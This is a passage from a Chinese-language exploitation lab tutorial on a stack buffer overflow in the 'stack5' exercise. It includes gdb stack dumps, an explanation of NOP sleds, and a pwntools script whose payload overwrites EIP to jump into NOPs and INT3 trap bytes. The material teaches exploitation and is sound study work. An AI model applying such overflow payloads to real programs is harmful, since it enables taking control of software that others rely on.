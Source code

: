 ```
0008| 0xffffcd28 --> 0xffffcddc --> 0xffffd02c ("SHELL=/usr/bin/zsh")
0012| 0xffffcd2c --> 0xffffcd40 --> 0xf7e2a000 --> 0x229dac 
0016| 0xffffcd30 --> 0xf7e2a000 --> 0x229dac 
0020| 0xffffcd34 --> 0x80483c4 (<main>: push   ebp)
0024| 0xffffcd38 --> 0x1 
0028| 0xffffcd3c --> 0xffffcdd4 --> 0xffffcff0 ("/home/ubuntu/Desktop/workspace/PWN_Lec/Lec1/Lab/test/stack5")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGTRAP
0xffffcd21 in ?? ()
```
看到 `Stopped reason: SIGTRAP`，表示我們成功觸發 Trap，收到作業系統發起的 Exception 了，接著，我們試試看是否能夠在 gdb 外面執行這一段程式
```shell
$ cat payload_trap | ./stack5
[1]    16789 done                                        cat payload_trap | 
       16790 illegal hardware instruction (core dumped)  ./stack5
```
我們發現出現了 illegal hardware instruction 的錯誤，這是因為我們的 Shellcode 沒有被正確的執行，我們想像我們有下面這一段程式碼
```
do something A
do something B
```
我們希望我們的程式從 `do something A` 開始執行，但是實際情況下，我們可能會從 `do something B` 開始執行，這時候，我們需要運用 NOP Sleds 的技巧，NOP 為組合語言指令，執行後不進行任何動作，我們可以通過在 Shellcode 中塞入大量的 NOP 指令，確保 Shellcode 正確的被執行，以下概念
```
NOP
NOP
NOP <-- 假設從這裡開始執行 (從哪裡開始我們可以通過 rip 決定)
NOP
NOP
do something A
do something B
```
塞入 NOP 可以確保 Shellcode 是被完整執行的，我們修改我們的腳本 (上方為 python2 的寫法)，接著重新執行
```py
# import struct
# padding ="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMOOOOPPPPQQQQRRRRSSSS"
# ebp = "TTTT"
# eip = struct.pack("I", 0xffffcd20+150)
# shellcode = "\x90" * 150 + "\xCC" * 4
# payload = padding + ebp + eip + shellcode
# print payload

from pwn import *
padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMOOOOPPPPQQQQRRRRSSSS"
ebp = b"TTTT"
eip = p32(0xffffcd20+150)
shellcode = b"\x90" * 150 + b"\xCC" * 4
payload = padding + ebp + eip + shellcode
with open('payload_trap', 'wb') as f:
    f.write(payload)
```
```shell
$ cat payload_trap | ./stack5
[1]    17122 done                      cat payload_trap | 
       17123 trace trap (core dumped)  ./stack5
```
成功執行結果。
